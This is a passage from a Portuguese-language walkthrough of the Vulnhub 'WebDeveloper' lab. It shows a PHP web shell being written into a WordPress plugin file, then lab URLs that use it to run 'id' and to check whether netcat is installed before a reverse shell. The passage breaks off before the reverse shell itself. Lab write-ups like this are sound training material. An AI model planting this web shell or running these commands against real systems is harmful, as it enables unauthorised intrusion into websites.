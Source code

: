 
Editamos a pagina **akismet/index.php** com o "php do mal", para ver se conseguimos RCE.

```bash
<?php system($_GET['cmd']); ?>
```

![](/assets/img/Vulnhub/WebDeveloper/wp-phpDoMal.png)



Agora acessamos a pagina do plugin e constatamos que temos RCE!

```
http://192.168.110.12/wp-content/plugins/akismet/index.php?cmd=id
```

![](/assets/img/Vulnhub/WebDeveloper/wp-rce.png)



## Shell Reverso

Bom... ja que temos RCE na pagina do wordpress, agora so precisamos mosntar o nosso payload, encodar e passar via URL para ganhar o shell...


Primeiro passo e procurar por um comando que nos retorne o shell. Como temos um RCE podemor procurar se tem o programa antes de tentar usa-lo. Agora sabemos que o alvo tem o nc instalado

```
192.168.110.12/wp-content/plugins/akismet/index.php?cmd=whereis%20nc
```

![](/assets/img/Vulnhub/WebDeveloper/shellReverso-whereisPython.png)
